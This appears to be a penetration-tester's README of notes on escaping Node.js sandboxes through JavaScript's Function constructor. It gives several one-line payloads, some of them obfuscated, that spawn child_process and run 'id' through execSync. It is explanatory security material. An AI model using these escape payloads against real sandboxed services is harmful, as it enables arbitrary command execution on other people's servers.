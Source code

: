 # more languages and technologies will be addes soon 

## nodejs sandbox bypass 101

this payloads or techniques not necessarily to work on real targets , it just explainging how to do it 

### constructor function 
A constructor function in JavaScript is a special type of function that is used to create and initialize objects , so we can use it to create functions since functions are objects in javascript


### the idea of bypass is to access the constructor property of a function to create your evil functions bypassing restricted rules which is set in the sandbox , so  create object access function or any property which reffer to a function then access its constructor property which refers to the constructor function (note `"".constructor()` is a function )

![Screenshot_20230808_161658](https://github.com/kiro6/penetration-testing-notes/assets/57776872/bef0f085-20c3-428f-810e-5271d67d4de2)

  
- examples 
```js

# ''.split.constructor()() === ''["split"]["constructor"]("console.log(1)")()

[].push.constructor("console.log(1)")()

"".split.constructor("console.log(1)")()

"".constructor.constructor("console.log(1)")()

''["sub"]["constructor"]('console.log(1)')()

Number(1).constructor.constructor("console.log(1)")()

```

### we have another technique to understand it i recommend reading [this](http://kangax.github.io/nfe/)

```js

(function (y) {return ''[!y?'__proto__':'constructor']['constructor']})('constructor')('console.log(1)')()

(function(prop) { return ''[prop ? "constructor":"benign"  ][prop] })("constructor")("console.log(1)")()

(function({anything}){return anything.constructor})({anything:"".split})("console.log(1)")()

```

### ofcourse we can do more than just console , here is how to import modules inside the evil functions you create

```
process.mainModule.require("child_process").execSync("id")

global.process.mainModule.constructor._load("child_process").execSync("id")
```

### final examples 

```
(function (y) {return ''[!y?'__proto__':'constructor']['constructor']})('constructor')('throw new SyntaxError(process.mainModule.require(\"child_process\").execSync(\"id\").toString())')()


"".sub.constructor('throw new SyntaxError(process.mainModule.require(\"child_process\").execSync(\"id\").toString())')()


(function({book}){return book.constructor})({book:"".sub})("console.log(global.process.mainModule.constructor._load(\"child_process\").execSync(\"id\").toString())")()

```

#### sources 
- https://hilb3r7.github.io/walkthroughs/babybreakinggrad.html
- https://licenciaparahackear.github.io/en/posts/bypassing-a-restrictive-js-sandbox/
